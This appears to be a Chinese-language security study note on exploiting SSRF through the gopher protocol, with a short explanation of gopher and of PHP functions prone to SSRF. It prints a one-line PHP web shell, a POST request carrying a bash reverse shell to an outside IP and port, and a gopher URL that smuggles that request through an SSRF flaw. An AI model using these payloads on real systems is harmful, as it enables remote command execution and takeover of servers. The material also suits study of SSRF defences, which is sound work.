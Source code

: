 https://blog.csdn.net/sojrs_sec/article/details/100999908

exp.php

	<?php system($_POST[e]);?> 

利用方式

	POST /exp.php HTTP/1.1
	Host: 127.0.0.1
	User-Agent: curl/7.43.0
	Accept: */*
	Content-Length: 47
	Content-Type: application/x-www-form-urlencoded
	
	e=bash -i >%26 /dev/tcp/xx.xxx.x.xx/2333 0>%261

构造 Gopher 协议的 URL：

	gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 47%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/vps/2333 0>%25261null


## gopher协议

gopher协议是一种信息查找系统，他将Internet上的文件组织成某种索引，方便用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。现在它基本过时，人们很少再使用它。虽然很古老但现在很多库还支持gopher 协议而且gopher 协议功能很强大。

<font color='red'>**它可以实现多个数据包整合发送，然后gopher 服务器将多个数据包捆绑着发送到客户端，这就是它的菜单响应。比如使用一条gopher 协议的curl 命令就能操作mysql 数据库或完成对redis 的攻击等等。**</font>
gopher 协议使用tcp 可靠连接。

它只支持文本，不支持图像

![](images/6.png)

**https://yinwc.github.io/2018/07/31/Gopher/**

https://www.cnblogs.com/Konmu/p/12984891.html

https://www.cnblogs.com/zhangqianxi/p/13337622.html

## php 中的 ssrf

以下三个函数使用不当会造成SSRF漏洞

	file_get_contents()
	fsockopen()
	curl_exec()

构造一个存在ssrf漏洞的页面
